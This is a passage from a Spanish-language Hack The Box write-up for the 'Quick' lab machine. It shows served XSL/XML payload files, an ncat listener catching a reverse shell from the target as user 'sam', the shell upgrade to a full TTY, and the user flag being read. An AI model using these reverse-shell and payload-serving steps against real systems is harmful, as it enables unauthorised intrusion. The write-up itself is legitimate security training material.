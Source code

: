 

![](/assets/images/HTB/htb-writeup-Quick/quick11.PNG)

Nos genera otro nuevo ticket que al buscarlo nuevamente en la ruta `search.php`, ejecuta el archivo dandonos acceso al sistema como el usuario `sam`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.186 - - [17/Jun/2023 00:04:41] "GET /c.xsl HTTP/1.1" 200 -
10.10.10.186 - - [17/Jun/2023 00:04:42] "GET /c.xml HTTP/1.1" 200 -
```

```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.186.
Ncat: Connection from 10.10.10.186:38672.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
sam
$ 
```

Como es de costumbre, ahora ganaremos acceso con una `tty full interactive`.


```bash
$ script /dev/null -c bash
Script started, file is /dev/null
sam@quick:~$ ^Z
zsh: suspended  ncat -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  ncat -nlvp 443
                                reset xterm
sam@quick:~$ export TERM=xterm
sam@quick:~$ export SHELL=bash
sam@quick:~$ stty rows 45 columns 184
```

Nos dirigimos al directorio personal del usuario `sam` y visualizamos la primera flag `user.txt`.

```bash
sam@quick:~$ ls
esigate-distribution-5.2  shell  user.txt
sam@quick:~$ cat user.txt 
359179c57000cd4aa582740c4a637cc6
```
